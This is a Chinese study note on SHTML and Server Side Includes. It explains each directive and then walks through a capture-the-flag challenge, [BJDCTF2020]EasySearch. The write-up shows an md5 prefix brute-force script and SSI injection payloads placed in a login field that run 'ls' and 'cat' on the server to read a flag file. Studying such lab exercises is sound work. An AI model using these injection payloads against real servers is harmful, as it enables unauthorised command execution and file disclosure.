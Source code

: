 ## shtml学习

> SHTML（Server Side Includes HTML）是一种基于HTML的标记语言，用于将服务器端动态内容嵌入到静态HTML页面中。SHTML文件通常以 `.shtml` 作为扩展名，而不是常规的 `.html`。它允许通过服务器端的脚本（如SSI，即服务器端包含）来动态生成或插入内容。

> SSI（Server Side Includes，服务器端包含）是一种在Web服务器端动态生成HTML内容的技术。它允许Web页面在被浏览器加载之前，在服务器端插入动态内容。SSI通常用于将静态HTML页面和动态内容结合，使得页面在服务器端动态生成一些内容（例如日期、时间、服务器信息或从其他文件中加载内容）而不需要完全生成动态网页。

示例：

```html
<!DOCTYPE html>
<html>
<head>
    <title>示例 SHTML 页面</title>
</head>
<body>
    <h1>欢迎来到我的网页!</h1>
    <!--#include virtual="footer.html" -->
</body>
</html>
```

`footer.html` 文件的内容会被服务器插入到 `<!--#include-->` 指令所在的位置。

### 常用SSI指令

**`#include`**：

- 这个指令用于将其他文件的内容嵌入到当前页面中。

- 例如：

  ```html
  <!--#include virtual="footer.html" -->
  ```

  上面的代码会将

  ```
  footer.html
  ```

  文件的内容插入到当前页面中。

**`#echo`**：

- 用于输出某个变量的值，比如环境变量、日期、时间等。

- 例如：

  ```html
  <!--#echo var="DATE_LOCAL" -->
  ```

  这会输出服务器的本地时间。

**`#exec`**：

- 用来执行外部程序或脚本，并将其输出插入到当前页面。

- 例如：

  ```html
  <!--#exec cmd="date" -->
  ```

  这会在页面中显示服务器的当前日期。

**`#if` / `#else` / `#endif`**：

- 这些指令用于条件判断，可以根据不同的条件显示不同的内容。

- 例如：

  ```html
  <!--#if expr="$QUERY_STRING = 'show=true'" -->
  <p>条件满足，显示内容。</p>
  <!--#else-->
  <p>条件不满足，显示其他内容。</p>
  <!--#endif-->
  ```

**`#set`**：

- 用来定义和设置变量的值，后续可以在页面中使用。

- 例如：

  ```html
  <!--#set var="username" value="John Doe" -->
  ```

### 题目

#### [BJDCTF2020]EasySearch

![image-20250118144747424](https://gitee.com/bx33661/image/raw/master/path/image-20250118144747424.png)

扫描发现存在index.php.swp，一个md5问题

```python
import hashlib

for i in range(9999999):
    if (hashlib.md5(str(i).encode('utf-8')).hexdigest()[:6] == '6d0bc1'):
        print(i)
        break

        #2020666
```

我们随便登录，抓包发现，可以访问shtml页面，开始我以为是模板注入

学习了之后发现

可以利用SSI执行命令：

```(空)
username=<!--#exec cmd="ls /"-->&password=2020666
username=<!--#exec cmd="ls ../"-->&password=2020666
username=<!--#exec cmd="cat ../flag_990c66bf85a09c664f0b6741840499b2 "-->&password=2020666
```

最后得到flag

也可以利用包含语句

```(空)
<!--#include virtual="../flag_990c66bf85a09c664f0b6741840499b2" -->
```


